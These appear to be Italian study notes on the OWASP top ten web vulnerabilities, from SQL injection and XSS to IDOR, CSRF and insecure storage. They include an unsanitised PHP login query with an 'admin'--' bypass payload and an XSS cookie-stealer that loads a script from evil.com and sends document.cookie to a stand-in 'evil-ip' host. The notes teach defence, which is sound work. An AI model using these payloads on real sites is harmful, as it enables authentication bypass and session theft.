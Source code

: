 Gli accorgimenti di sicurezza non si devono peró fermare al livello applicativo, ma devono coprire anche le azioni dell'utente.

Per valutare queste problematiche utilizziamo la classifica **OWASP**(classifica dei problemi di sicurezza piú gravi).
## 1. Injection
Invio di codice arbitrario all'applicazione, che viene eseguito lato server.

Alcuni esempi tra i piú noti sono l'sql injection e il buffer overflow.

É possibile peró evitare attacchi di questo tipo "sanificando" l'input dell'utente.
### Esempio: SQL-injection, authentication bypass
Immaginiamo di avere su una pagina web PHP un form di login, richiedente username e password per l'accesso ad una dashboard. La pagina effettua una richiesta al database relazionale direttamete o si interfaccia con un controller per chiedere se i dati inseriti sono corretti.

Immaginiamo che la query sia 
```php
$username = $_POST['user'];
$password = $_POST['password'];
$query -> "select * from users where username='$username' and password='$password'";
```
notiamo che non viene fatta alcun controllo sull input, quindi un'attaccante é in grado di bypassare l'autenticazione con una semplice richiesta web con payload
```
user=admin'--
```
> Si suppone che esista l'utente admin e che la logica del codice PHP restante implementi il login.
## 2. XSS - Cross site scripting
É una vulnerabilitá che permette a un attaccante di manipolare un sito vulnerabile per far eseguire del codice Javascript malevolo ad un utente.

Uno script può essere eseguito sul Browser della vittima, facendo in modo che i parametri del Browser relativi al sito target (in particolare I cookies) vengano intercettati.

Si dividono in due categorie: 
- **reflected XSS**: quello sopra descritto
- **stored XSS**: quando un'applicazione riceve un'input malevolo e lo include nelle risposte HTTP future in una faniera non sicura[1](https://portswigger.net/web-security/cross-site-scripting/stored)
### Esempio: Reflected XSS - Cookie stealer con phising
Immaginiamo che un sito abbia una form per i contatti, dove é possibile inserire il link al proprio sito.

La richiesta di contatto viene renderizzata dal browser sul pannello amministratore in un tag HTML *p* senza essere sanitizzato, come segue
```html
<!-- site=http://input-site.com -->
<p>Site: http://input-site.com</p>
```
Un attaccante puó quindi inserire codice javascript che viene eseguito dal browser.
```html
<!-- site=<script>alert(1)</script> -->
<p><script>alert(1)</script></p>
```
Si puó inoltre allegare una richiesta a un file js di nostro possesso, mettere in ascolto una reverse-shell e far effettuare la richiesta dal browser dell'attaccante(anche se finiremo nella sandbox del browser) oppure rubare il cookie dell'utente che visualizzerá la pagina:
```html
<p><script src="http://evil.com/pwn.js"></script></p>
```
```js
//pwn.js
var i=new Image();
i.src="http://evil-ip:/?"+document.cookie;
```
mettendo in ascolto un server HTTP per ricevere la richiesta.
## 3. Broken Authentication & session management
**Broken autentication**: l’autenticazione utente viene resa vana, ovvero un utente non autorizzato riesce ad autenticarsi.
**Broken Session management**: un utente non autorizzato riesce ad inserirsi all’interno di una sessione di un utente autorizzato.
## 4. Insecure direct object references(IDOR)
Un tipo di vulnerabilitá sul controllo degli accessi che sorge quando un'applicazione usa un'input utent per accedere agli oggetti direttamente.

Per esempio la pagina del proprio profilo utente, visualizzabile dopo l'autenticazione
``` https://insecure-website.com/customer_account?customer_number=132355``` 
effettua un riferimento diretto al database di backend, e questo rende accessibili i profili di altri utenti semplicemente modificando i valore del campo `customed_id`.
## 5. Cross site request forgery
É una vulnerabilitá che permette ad un attaccante di indurre azioni ad un utente che non aveva intenzione di compiere.

Un sito permette operazioni critiche agli utenti autorizzati previa autenticazione, durante la stessa sessione.
Lo stesso utente autorizzato apre una pagina fraudolenta in un’altra scheda, che lo porta ad richiedere una diversa operazione, all’interno della sessione autenticata:

Permette di bypassare la same-origin policy, che evita che piú pagine interferiscano tra di esse, per esempio sfruttando iframe collegati a siti malevoli.
## 6. Security Misconfiguration
Ad esempio:
1. Il framework di sviluppo non è aggiornato
2. Installo un pacchetto lato server ma non cambio gli utenti di default (es. user admin, password admin)
3. Directory listing in Apache
### Esempio: CSM con credenziali di default
Un sito gestito tramite CMS(_Content Management_ System), come ad esempio wordpress o drupal, presenta le credenziali di default o un file di configurazione con le credenziali in chiaro
## 7. Insecure cryptographic storage
Ad esempio:
- Dati riservati sono memorizzati in chiaro, oppure la chiave è memorizzata in chiaro, sul server o sui backup
- Password e chiavi crittografiche deboli rispetto a guessing e cracking
- Password “unsalted”
## 8. Failure to restrict URL access
Un utente é in grado di raggiungere pagine di un sito che richiederebbero autenticazione senza autenticarsi.
## 9. Insufficient transport layer protection
- SSL solo su alcune delle pagine o componenti riservate.
- Certificati scaduti o con CA non riconosciute.
- In generale, possibilità di intercettare il traffico (es. Arp / DNS spoofing)
## 10. Unvalidated redirects and forwards
L’utente prevede delle pagine che ridirezionano l’utente verso una URL ottenuta a partire da un parametro – l’utente può cliccare su un link che lo porta al sito, ma poi lo ridireziona su un sito pericoloso.

Stessa cosa per i forward interni
## Altre vulnerabilitá
- **DOS** (OWASP top ten – entry A9 – nel 2004), es.:
	- syn flooding
	- “smurf”
- **Insufficient Anti-automation**, es.: 
	- biometrics
	- captcha
- **Phishing**
- Metodi di **autenticazione** per online banking
	es.:
	- one time passwords
	- password dispositive
	- SSL client authentication
	- autenticazione con firma elettronica
## Metologia OWASP
La top ten di OWASP viene sviluppata basandosi su questa tabella:
![[Pasted image 20230904220337.png]]

Chiaramente non è possibile trovare un threat agent né un business impact poiché sono dipendenti dalla situazione in cui ci troviamo. 

Tutte le altre variabili sono invece definite solamente dal tipo di vulnerabilità: 
- **Attack vectors**: **quanto** è **facile** **effettuare** un attacco sfruttando quella vulnerabilità. 
- **Weakness prevalence**: **quanto** è **diffusa** la vulnerabilità. 
- **Weakness detectability**: **quando** è **facile** **scoprire** la vulnerabilità. 
- **Tech impact**: **quali** sono gli **impatti tecnologici** a fronte di un attacco sfruttando quella vulnerabilità.